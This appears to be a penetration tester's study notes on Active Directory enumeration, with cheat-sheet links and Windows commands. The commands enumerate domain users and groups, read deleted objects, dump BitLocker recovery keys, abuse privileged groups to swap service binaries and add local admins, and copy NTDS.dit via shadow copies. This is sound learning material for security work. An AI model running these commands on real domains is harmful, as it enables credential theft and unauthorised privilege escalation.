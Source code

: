 ```yaml
---
layout: blank
pagetitle: Active Directory Enumeration
---
```


AD Cheat Sheet - https://wadcoms.github.io/#

AD mindmap - https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_dark_classic_2025.03.excalidraw.svg

## AD Intro
- Organizational Units (OUs)
	- Basically categories for group policy settings and permissions
	- These can be hierarchical (for example, two OUs for two sub-organizations within a company)
- Ensure to enumerate from all users we have access to
- When using xfreerdp, use `/d:` for domain name

## Manual Enumeration

**User Enumeration**
- If something reveals the names of employees, use this to guess at usernames. Can try to see if each user doesn't have preauth
**Enumeration using Windows Tools**
- `net user /domain` will display all domain user accounts
	- `net user {user} /domain`
		- This shows comments on a user, which can contain passwords
		- This also shows logon scripts, which can be interesting
- `net group /domain` will give us the domain groups
	- A group assigns permissions to resources (users and other groups)
	- `net group "{group}" /domain`
	- Some uncommon but useful groups:
		- https://ss64.com/nt/syntax-security_groups.html - all groups
		- AD Recycle Bin 
			- Can read deleted AD objects
			- `Get-ADObject -ldapfilter "(&(isDeleted=TRUE))" -IncludeDeletedObjects`
			- `Get-ADObject -ldapfilter "(&(objectclass=user)(DisplayName={name})(isDeleted=TRUE))" -IncludeDeletedObjects -Properties *`
		- (Enterprise) Key Admins
			- Used for managing Bitlocker keys
			- `Get-ADComputer -Filter * -Properties msFVE-RecoveryPassword | Select-Object Name, 'msFVE-RecoveryPassword'`
		- Pre–Windows 2000 Compatible Access
			- Can read most objects due to compatability
			- `Get-ADUser -Filter * -Properties MemberOf | Select-Object Name, MemberOf`
			- `Get-ADObject -LDAPFilter "(&(objectCategory=Person)(objectClass=user))" -Properties *`
		- Server Operators
			- Can modify service binaries and restart them
			- `sc.exe config YourServiceName binPath= "C:\path\to\malicious\binary.exe"`
			- `sc.exe start YourServiceName`
		- Print Operators
			- Can be good for DLL hijacking
			- `rundll32.exe C:\path\to\malicious.dll,MainEntryPoint`
		- Account Operators
			- Can add permissions to users or users to groups, such as becoming a local Administrator or managing a service running with higher privileges
			- `net localgroup Administrators TargetUser /add`
			- `sc.exe sdset "ServiceName" "D:(A;;CCLCRPRC;;;S-1-5-21-[SID of TargetUser])"`
		- Backup Operators
			- Can backup sensitive files, like NTDS.dit
			- `vssadmin create shadow /for=C:` 
			- `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit C:\Temp\ntds.dit`